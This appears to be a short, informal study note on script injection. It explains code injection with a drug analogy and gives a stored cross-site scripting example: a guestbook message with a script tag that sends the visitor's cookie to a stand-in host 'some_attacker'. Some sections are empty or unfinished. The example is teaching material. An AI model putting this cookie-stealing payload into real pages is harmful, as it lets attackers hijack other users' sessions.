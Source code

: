 # Script Injection

# What?
* Code injection in general is when some code is placed (injected) into a vulnerable program.

* Much like a injecting drugs, this will have a serious effect - and this won't always be a good thing. From a local anesthetic to allow a friendly operation on your teeth :D
![tag](https://www.google.co.uk/search?q=teeth&espv=2&biw=1484&bih=796&source=lnms&tbm=isch&sa=X&ved=0ahUKEwiAr8qCrYvLAhWBvBQKHTacAr4Q_AUIBigB#imgrc=oWTH8-mu73NhSM%3A), 
or a hard class A that will lead to a life of theft and no teeth, there are benign and malign code injections.

### Benign


### Malign

* A web server has a guestbook script, which accepts small messages from users, and typically receives messages such as

 Very nice site!
However a malicious person may know of a code injection vulnerability in the guestbook, and enters a message such as

Nice site,  I think I'll take it. <script>document.location="http://some_attacker/cookie.cgi?" + document.cookie</script>

If another user views the page then the injected code will be executed. This code can allow the attacker to impersonate another user. However this same software bug can be accidentally triggered by an unassuming user which will cause the website to display bad HTML code.





## Whitelisting
* Opposite of blacklisting, a list of programs, words, e-mails, filters that are allowed for a particular website or program.
*    
